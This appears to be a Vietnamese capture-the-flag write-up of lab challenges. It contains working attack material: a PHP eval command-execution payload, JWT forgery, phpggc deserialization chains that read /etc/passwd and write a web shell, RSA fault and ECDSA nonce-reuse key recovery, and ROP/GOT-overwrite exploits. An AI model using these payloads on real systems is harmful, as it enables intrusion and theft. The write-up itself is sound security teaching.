thử in ra chính cái biến `$_` luôn


vì mình nhập value là `die($_);` nên khi eval thực thi nó ra `die($_);` luôn

vì nó chặn hầu hết các hàm nguy hiểm 

mình đã search gg và thấy trang này

ở cuối 


search gg 


vậy là ta có thể dùng ` để chạy lệnh


thử /?%e2%81%a3=`ls`;


tuy nhiên dù nó chạy được trong eval nhưng nó không trả về gì hết vì không có cái nào hiển thị trên màn hình 
để nó hiển thị trên màn hình ta kết hợp với die 


bùm rce thành công


/?%e2%81%a3=die(`cat+/*`)%3b

CBJS{...evallll_everything_86afff7f80c784e2}

## Cybershare


đầu tiên chúng ta có 3 link 1 link `xss bot` mình đoán là gửi payload xss vào đó, một link `cybermail` chủ yếu để xác thực mail khi đăng nhập vào bằng `cybershare`.

vào check cybershare chúng ta thấy 1 đóng payload xss của người khác nên đành disable js 


check thử trong mấy tấm ảnh xem có gì nào 


toàn payload xss của cha khác

khi click vào chữ xanh by mecon ta được dẫn tới 


tức là các ảnh của user này đã up vậy coi coi `user admin` up lên cái nào không nhỉ.


bùm có EGG đầu tiên: `EGG{k33p_t0_3num3r4t3_us3r_t0_f1nd_m0r3_l34k_d4t4}`

thử check feature upload ảnh lên xem như nào


sau khi upload lên và truy cập `/myphoto` ta thấy


thật upload tiếp ảnh này với đuôi khác thì như nào 


và check `/myphoto` 


ta thấy có thể chèn thêm bất cứ thứ gì ta thích ở sau với trước đó là 1 dãy `md5` vậy thử chèn `payload xss` vào xem như nào


xss thành công giờ thử truy cập https://cybershare.league.cyberjutsu-lab.tech/detail.php/f24cac92aa86a418e7519580cdf16929


yey chúng ta `xss` thành công giờ viết payload gửi bot thôi chill thế.

thế quái nào gửi mọi payload `xss` lên con bot đều không vào

tiếp theo mình để ý tới cookie 

```text
Cookie: cybershare_jwt=ZXlKMGVYQWlPaUpLVjFRaUxDSmhiR2NpT2lKSVV6STFOaUo5LmV5SjFjMlZ5SWpvaWNHRjBieUo5LnM5ZGpxRXVDSzVFZXkxRkY1MXRtTXV1My1DNWsyRHlvQWFLWVBoOEt5QWc%3D
```


thử để cho alg là none xem fake được không


vậy là fake khom được rồi.

mình cũng thử `brute force` luôn `secret key` nhưng chịu thua.

không còn đường nào mình phải đi recon thôi

mình sẽ bắt đầu ở host cybermail trước 


`.git/HEAD` coi như end game

tiến hành dump nó về 


mình đã thấy `secret key` luôn.


thơm thế giờ chỉnh cái jwt lại thôi 


nhìn jwt thấy Admin đang là null giờ chỉnh nó lại true xem 


đoạn code này trong file jwt.php 

ở dòng 35 JWT::decode  trả về 1 object và ->{"0"}  lấy thuộc  tính có  tên là 0 

payload cũng có thể trở thành là 

```json
{
  "0": "a:2:{s:4:\"user\";s:18:\"test@cybermail.com\";s:7:\"isAdmin\";b:1;}"
}
```

hoặc

`["a:2:{s:4:\"user\";s:18:\"test@cybermail.com\";s:7:\"isAdmin\";b:1;}"]` 

vào code dòng 35 36 thì 2 đoạn payload trên là như nhau nhưng vào chỉnh ở  phải dùng đoạn trên mới hợp lệ

sau khi chỉnh payload thành đoạn trên ta được


một cái egg tiếp theo: `EGG{S0m3_th1ng_br34k_d0wn_wh3n_y0u_us3_jwt_k3y}`

tiếp tục khai thác `insecure deserialization` 

 mình biết được trong docker file chạy `swiftmailer:6.0.0`


sau đó mình dùng tool `phpggc` để check 


vậy là chúng ta có thể đọc và read file 

thử read file trước

đầu tiên tạo ra json hợp lí từ ggc : `phpggc SwiftMailer/FR1 /etc/passwd | php -r 'echo json_encode(stream_get_contents(STDIN));'`


sau đó lấy đoạn này để lên  thêm “0”: để cho  không lỗi 


sau đó xem đoạn code `checktoken.php`


dòng 2 sẽ lấy giá trị của cái key token vậy chúng ta sẽ gửi 

với method `POST /checktoken.php`

```text
Content-Type: application/x-www-form-urlencoded
```

payload là: token = đoạn encode jwt ở trên sau đó base64 lại và urlencode lại


tèn ten chúng ta read file thành công giờ chúng ta sẽ write file để `RCE`

ta cần biết document root 


dòng 11 ta biết document root là `/var/www/html`


nhưng chỗ đó hỏng có viết file được

nhìn dòng 33 là biết chỗ đó viết file được.

viết shell vào `/var/www/html/upload`

như cũ thôi 

tạo ra 1 shell 


sau đó `phpggc SwiftMailer/FW2 /var/www/html/upload/pato.php /home/kali/CTF/cbjs_2026/competition/web3/test/test2/s.php | php -r 'echo json_encode(stream_get_contents(STDIN));'`


rồi lên  thêm {“0”:”chuoi json o day”}
để không bị lỗi kí tự 


quăn lên 

method `POST /checktoken.php`

```text
Content-Type: application/x-www-form-urlencoded
```

payload là: token= đoạn encode jwt ở trên sau đó base64 lại và urlencode lại


viết  file thành công  


```json
CBJS{9809d56b37cb4ca803078940da2011c3}
```

# Week 3

## The Archivist’s Fault


Chall này mình có 1 file chall.py đọc qua thì mình có để ý. Đầu tiên là bài này sẽ là dạng giả mạo chữ kí nếu thành công thì mình sẽ có flag.


và mình được cung cấp 1 cái hash.

Ngoài ra mình có thấy 1 chỗ lạ nữa là Cabinet, mình được cho `Cabinet_Size = 64` cơ mà ở `RESTRICTED_SLIP` thì cabinet lại là -1, có khả năng có gì đó được giấu ở phần Cabinet nằm ở vị trí âm!!!

Mình nc vào thử thì mình thấy nó hơi khác tí xíu


Nhưng khong sao vì mình đã có 1 cái script để vượt qua cái này 


Sau đó mình thử 1 số chức năng


thì mình biết 1 là để in mấy cái như n, e, byte…

2 là để mình nhập vào tên sau đó sẽ xuất ra cái token

3 là để mình ghi dữ liệu vào 1 vị trí Cabinet

4 là để xem giá trị Cabinet ở vị trí đó.

mình có thử ý tưởng trước đó của mình và đúng là mình có được cái gì đó


sau 1 đống vị trí cho ra 00 thì ở -35 mình có 40

sau đó mình có 1 script dùng `pwntools` để in liên tục các vị trí xung quanh -35 để xem nó có những gì và mình có được đống này


có thể nó sẽ là key hoặc gì đó nên mình lưu lại và để sang 1 bên dùng sau.

Mình có xem lại file chall.py và thấy là N cũng không phải là quá lớn chỉ tầm 231 chữ số thoi :v

Sau 1 lúc mày mò trong vô vọng thì mình bắt đầu để ý đến Title. Mình thử tìm thì có được 1 phương pháp tấn công vô tình giống với đề “RSA CRT `FAULT` ATTACK”

Về cơ bản thì nếu bạn check bình thường thì hong sao hết, bạn sẽ kiểm tra bằng:

```text
s^e mod n = m
```

Nhưng nếu bạn verify sign bằng cách tách nó ra sau đó tính:

```text
sp = m^dp mod p
sq = m^dq mod q
```

cuối cùng ghép 2 cái lại bằng CRT ròi mởi kiểm tra :). Trong trường hợp nếu nó lỗi 1 bit/byte thì nó sẽ cho phép bạn dùng cái cách tấn công trên trên kia để lấy được p, q.

Thế thì làm sao để nó lỗi 1 bit mình thử cho cái Cabinet tại -1 bằng 1 như này:


Bốc đại 1 cái Token nào đó


Cuối cùng với đống ý tưởng cùng với dữ liệu mình có được thì mình vô tình có 1 cái script để fake chữ ký (chacchankhonggphaitugpt) :c

Nhưng mà có vẻ như là nó không hoạt động, mình để ý đến `impression` ở đây là `clean`, mình cần làm cho nó unclean hoặc bad hoặc gì đó.

Để ý lại số 4 mình thấy ngoài đọc cái vị trí đó mang giá trị gì thì nó còn bảo trì hay gì nữa


Và sau khi thử thì mình có được gì đó ở đây mình thử mark theo cái rubbing và xem mình có gì này


impression: bad

rat tuyet voi xin cam on

sau đó dùng script của mà mình vô tình có khi trước để chạy


mình có 1 cái token

Mang cái token lên web và 


script: 

## EggRoll Silent Orchard


Tiếp tục là 1 chall về lỗ hổng mã hóa, cho phép kẻ tấn công (là mình đó) tận dụng để thâm nhập và đánh cấp flag!!!

Mình được cung cấp cho 1 chall.py với nội dung là các getter, setter cùng với các api của trang web.

Mình vào /api/oracle để xem nội dung bên trong thì lấy được rất nhiều chữ và số


Nếu các bạn hiểu nó nghĩa là gì thì chúc mừng, còn mình thì mình hong hiểu.

Vì quá khó nhìn nên mình dùng tool để khiến nó dễ nhìn hơn tí và ánh mắt mình vô tình lướt thấy kiểu mã hóa của cái chall này.


ahhh toi yeu 

Dù sao thì đây là Elliptic Curve, cụ thể là "curve": "secp256k1" và đây lại là 1 chall đi lấy token hay chữ kí của admin nên là mình sẽ tập trung vào phần tạo và xác thực chữ kí.

trước hết thì  vì nó là đường cong `secp256k1` nên mình có được hằng số N:


Tiếp tục với chữ kí đi.

Chữ kí này được tạo ra bằng cách bốc đại 1 số k, từ số k đó dùng các hàm của `ECDSA`

để lấy tọa độ của 1 điểm x gọi là r:

```text
r = R.x mod n
```

Sau đó tính s: `s = k^-1(z + r*d) mod n`

Cuối cùng signature = (r, s).

Nếu các bạn hong hiểu thì không sao đâu vì mình cũng thế.


Ngoài ra thì mình cũng thấy có rất nhiều payload, mỗi payload lại có cho mình 1 cặp (r, s) nhưng nếu nhìn kĩ:


thì 2 Payload này lại có cùng r. Theo google thì nó là reused nonce dễ hiểu hơn thì nó giống reused key trong XOR vậy á.

Về lý thuyết nếu reused nonce thì mình có thể dùng hệ phương trình để tìm được private key

```text
s1 = k^-1(z1 + r*d)
s2 = k^-1(z2 + r*d)
```

Với những dữ kiện này mình lại vô tình có được script lấy token admin (chac chan la khong phai do minh ep AI gen ra cai scipt dua tren cai dong nay dau)


giờ thì submit cái token này vào /api/admin thoi


# Week 4

**Vì các bài PWN quá hardcore với mình nên mình sử dụng AI để giải, kết quả là mình không hiểu cho lắm vì chạy phát ra luôn, nên ae đọc chủ yếu lấy script thôi nhé ==)))**

Co Ganh


Chương trình là một trò chơi Cờ Gánh, quản lý bàn cờ bằng một mảng 1 chiều int board[25]

(tương đương 5x5) được cấp phát trên Stack. Lỗ hổng cốt lõi nằm ở việc thiếu kiểm tra giới hạn (Out-Of-Bounds) khi người chơi nhập tọa độ:

index = row * 5 + col

Việc nhập tọa độ nằm ngoài phạm vi (ví dụ: row = 5, 6) cho phép ta ghi đè trực tiếp lên các vùng nhớ quan trọng của Stack Frame:

● board[25]: Biến đếm lượt chơi (v5).

● board[28], board[29]: Thanh ghi Base Pointer `(Saved RBP)`.

● board[30], board[31]: Địa chỉ trả về của hàm `(Saved RIP - Return Address)`.

Tuy nhiên, rào cản lớn nhất nằm ở logic của game `(sub_4016b7)`:

Mỗi khi ghi một giá trị vào `board[target]`, game sẽ kiểm tra 2 ô lân cận để áp dụng luật:

1. Capture (Gánh): Nếu `board[target] == board[target-1] + board[target+1]`, nó sẽ reset 2 ô lân cận về 0.

2. Merge (Chèn): Nếu điều kiện trên sai, nó sẽ lấy `board[target] / 2` cộng dồn vào 2 ô lân cận.

Hậu quả: Nếu ta ngây thơ ghi trực tiếp địa chỉ hàm (Ví dụ: `SHELL = 0x401276`) vào `board[30]` (nửa dưới của RIP), logic Merge sẽ kích hoạt (vì SHELL != 0 + 0). Nó sẽ lấy SHELL/2 cộng vào `board[31]` (nửa trên của RIP).

=> Kết quả: RIP bị biến thành `0x20093b00401276`, gây ra lỗi Segmentation Fault ngay lập tức.

Để ngăn chặn logic Merge phá hỏng nửa trên của RIP, ta phải ép game thực hiện Capture để xóa sạch `board[31]` về 0.

Chiến thuật 3-Move:

1. Move 1 (5 4 SHELL): Ghi SHELL vào `board[29]`.

2. Move 2 (5 0 2): Giảm lượt chơi v5 xuống 2 để chuẩn bị thoát vòng lặp.

3. Move 3 (6 0 SHELL): Ghi SHELL vào `board[30]` (RIP Low).

○ Lúc này, game kiểm tra: `board[30] == board[29] + board[31]` tức là SHELL == SHELL+ 0.

○ Điều kiện đúng! Capture kích hoạt. Game tự động xóa sạch `board[29]` và board[31] về 0.

=> Kết quả: Stack sạch sẽ hoàn hảo, RIP mang giá trị 0x0000000000401276. Hàm system("/bin/sh") được gọi thành công, cấp cho ta một shell.


Sau khi có shell, ta kiểm tra bằng lệnh `ls -al /run/coganh/secrets/` và nhận ra một sự thật cay đắng:

Các file egg.txt, flag.txt thuộc quyền sở hữu của user pwner (uid=10002). Shell ta đang có chỉ chạy dưới quyền gamer (uid=10001), do đó bị Permission denied.

Nguyên nhân: File coganh có quyền SUID (pwner). Nhưng khi gọi `system("/bin/sh")`, shell /bin/sh(dash) phát hiện quyền thực thi (Effective UID) khác với quyền người dùng gốc (Real UID), nên nó cơ chế bảo mật tự động hạ quyền xuống gamer.

=> Giải pháp: Ta không thể gọi shell. Ta phải bắt file SUID tự động nhảy vào các hàm đọc file có sẵn trong binary (`0x4015a1` để đọc egg, `0x40164c` để đọc flag). Bằng cách này, luồng thực thi không đi qua /bin/sh, quyền pwner được bảo toàn!

Để nhảy thẳng vào hàm đọc file, ta gặp một rào cản cực lớn khác: Thanh ghi RBP.

Hàm đọc egg.txt `(0x4015a1)` sử dụng `[rbp-4]` để làm kích thước đọc (size) và `[rbp-0x40]` để làm buffer lưu trữ.

Nhờ kỹ thuật Capture ở Giai đoạn 1, `board[29]` (nửa trên RBP) và `board[28]` (nửa dưới RBP do tác dụng phụ của Merge) đều bị biến thành các địa chỉ không hợp lệ. Khi hàm read gọi tới RBP, chương trình sẽ Crash. Chiến thuật 4-Move thần thánh:

Ta phải tìm cách thiết lập RBP trỏ về một vùng nhớ có quyền ghi (Writable), ví dụ như vùng .bss`(0x40406C)`, đồng thời vẫn phải thỏa mãn điều kiện Capture để giữ RIP không bị rác.

Ta gọi:

TARGET: Địa chỉ hàm cần nhảy tới (Ví dụ: `EGG_READER = 0x4015a1`).

RBP_EGG: Địa chỉ .bss hợp lệ `(0x40406C)`.

VAL: Một giá trị trung gian cần tính toán.

Công thức toán học: `VAL = TARGET - RBP_EGG // 2`

Trình tự thực thi Pipeline qua Shell:

Sử dụng chính con shell gamer từ Giai đoạn 1, ta gọi lại binary `/opt/coganh/coganh` và đẩy (pipe) 

payload vào:

Bash

```bash
printf "5 4 VAL\n5 0 4\n5 3 RBP_EGG\n6 0 TARGET\n" | /opt/coganh/coganh
```

Điều gì thực sự diễn ra trong Memory?

1. Move 1 (5 4 VAL): board[29] = VAL.

2. Move 2 (5 0 4): Setup số lượt chơi để thoát game.

3. Move 3 (5 3 RBP_EGG): Ghi địa chỉ .bss vào board[28] (RBP Low).

Lập tức logic Merge kích hoạt! Nó lấy RBP_EGG / 2 cộng vào board[29].

Sự kỳ diệu của toán học: board[29] = VAL + RBP_EGG / 2. Áp dụng công thức, board[29] biến thành đúng giá trị TARGET!

4. Move 4 (6 0 TARGET): Ghi TARGET vào `board[30]` (RIP Low).

Game kiểm tra Capture: `board[30] == board[29] + board[31]`.

Tương đương: `TARGET == TARGET + 0`. Đúng! 

Logic Capture xóa sạch nửa trên của RBP (board[29]) và nửa trên của RIP(`board[31]`).

Kết quả cuối cùng trên Stack:

RBP = 0x000000000040406C -> Trỏ vào .bss, buffer hoàn toàn hợp lệ, không dẫm đạp lên GOT.

RIP = 0x00000000004015a1 -> Trỏ thẳng vào hàm EGG_READER.

Chương trình chạy dưới quyền `SUID`, sử dụng RBP và RIP hoàn hảo, trích xuất thành công nội

dung của `egg.txt` và `flag.txt` in ra màn hình.

script để lấy `shell` là:

script để lấy `flag.txt` và `egg.txt`:

## Rock, Paper, Scissor


Lỗ hổng chính: Buffer Overflow, GOT Overwrite, Format String (Off-by-one Null byte).

Bảo vệ của file: Bật NX (Không thể thực thi code trên Stack), ASLR (Địa chỉ Libc thay

đổi liên tục). Thiếu PIE và RELRO (Cho phép đè bảng GOT).

Mục tiêu: Vượt qua các hàm kiểm tra, lợi dụng GOT Overwrite để đổi `atoi` thành `printf`

(tạo lỗi Format String để leak Libc), đồng thời đổi `scanf` thành `main` (tạo vòng lặp để nhập

payload lần 2). Cuối cùng dùng Ret2Libc để lấy shell

Mở file bằng IDA, chúng ta tập trung vào hàm main. Cấu trúc bộ nhớ của hàm này có một điểm yếu chí mạng:

```c
char buf[8]; // Nằm tại [rbp - 0xC]
v6 = read(0, buf, 0x40uLL);
```

Chương trình cấp phát một mảng buf chỉ dài 8 bytes (cách RBP 12 bytes), nhưng lại cho phép lệnh read nhập vào tới 64 bytes (0x40). Điều này dẫn đến lỗi Buffer Overflow trầm trọng, cho phép ghi đè Saved RBP và Return Address (RIP). Đồng thời, hàm main có cơ chế kiểm tra phím bấm:

```c
if ( buf[0] != 49 ) return 0LL;
```

Nếu ký tự đầu tiên không phải là '1', hàm sẽ return ngay lập tức. Đây là một món quà, vì ta có thể gửi một phím khác (ví dụ phím '3') để ép hàm kết thúc, kích hoạt chuỗi ROP(Return-Oriented Programming) trên Stack mà không bị các lệnh game phía sau làm nhiễu bộ nhớ.

Kịch bản khai thác chia làm 3 giai đoạn được xâu chuỗi hoàn hảo trong một lần kết nối duy

nhất:

**1:** 

Mục tiêu là dời bộ nhớ Stack về bảng GOT và chuẩn bị sẵn địa chỉ puts@got để phục vụ cho việc leak thông tin ở Giai đoạn 2.

● Bypass Game: Payload bắt đầu bằng b"3\x00" để vượt qua logic game và kích hoạt

return ngay lập tức.

● Stack Pivot: Vùng Saved RBP bị ghi đè bằng 0x40405C (địa chỉ ngay trước bảng GOT).

Tiếp theo, RIP bị ghi đè bằng một gadget pop rbp; ret. Kỹ thuật này ép chương trình bẻ

nòng súng, dời mốc RBP về thẳng bảng GOT.

● Lặp lại read: Gadget tiếp theo nhảy thẳng vào 0x401e0a (địa chỉ lệnh read bên trong

hàm main).

● Ta nhét sẵn địa chỉ elf.got['puts'] vào Stack (rơi vào vị trí tham số thứ 7 và 8

của hàm printf sau này).

Lúc này, chương trình tiếp tục mở cổng read lần 2, nhưng vì RBP đã bị dời, mọi dữ liệu nhập vào sẽ ghi đè trực tiếp lên bảng GOT

**2:**

Mục tiêu là lợi dụng lệnh read đang mở để tráo đổi các hàm trong bảng GOT, biến hàm chuyển đổi số thành lỗ hổng Format String.

Bảng thiết kế bộ nhớ lúc này:

| **Địa chỉ GOT** | **Hàm ban đầu** | **Bị ghi đè thành** | **Mục đích** |
| --- | --- | --- | --- |
| 0x404060 | atoi@got | printf@plt | Biến atoi(buf) thành `printf(buf)` |
| 0x404068 | scanf@got | main | Khi game gọi `scanf`, nó sẽ quay lại `main` |

● Kỹ thuật Off-by-one Null Byte: Ta chỉ gửi đúng 31 bytes dữ liệu. Hàm read luôn tự

động chèn thêm 1 byte \x00 vào cuối chuỗi. Byte \x00 này ghép vừa khít để hoàn thiện

địa chỉ main dài 8 bytes (chỉ cần 7 byte đầu + 1 byte null do hệ thống thêm).

● Leak Libc: Payload bắt đầu bằng `b"1-%7$s"`. Số '1' giúp vượt qua cửa ải kiểm tra. Khi

chương trình gọi `atoi(buf)`, nó thực chất đang gọi `printf("1-%7$s")`.

● Hàm printf tìm đến tham số thứ 7 trên Stack (chính là địa chỉ puts@got ta làm 1) và in ra địa chỉ thực tế của hàm puts trong thư viện Libc

3: 

Từ địa chỉ puts vừa leak được, script Python nhanh chóng tính toán ra Libc Base và địa chỉ của hàm system.

● Chương trình chạy tiếp vào logic game và in ra dòng chữ "Enter your name: ". Ta gửi

phím "A" để đi tiếp.

● Game tiếp tục gọi hàm scanf để hỏi người chơi ra búa hay kéo. Do scanf đã bị đè thành

main, chương trình bị ép quay ngược thời gian, chạy lại hàm main từ đầu.

● Lệnh read của hàm main mở ra lần thứ 3. Lúc này, ta bắn Payload kết liễu:

○ Bắt đầu bằng '3' để kích hoạt return sớm.

○ Ghi đè 12 byte rác cho biến buf.

○ Ghi đè 8 byte rác qua Saved RBP.

○ Đè RIP bằng ROP Chain chuẩn của Ret2Libc: [pop rdi; ret] + [địa chỉ /bin/sh] + [ret]

+ [địa chỉ system].

Lưu ý: Gadget [ret] đứng trước system là vô cùng quan trọng để căn chỉnh Stack 16-byte, tránh việc hàm system bị crash do cơ chế bảo vệ của Ubuntu/GLIBC. Khi hàm main return, nó nhảy thẳng vào system("/bin/sh"). Quá trình khai thác hoàn tất, chiếm được quyền điều khiển máy chủ (Shell).

script cho bài này:

### Have a good day

### Writeup by Pato❤️
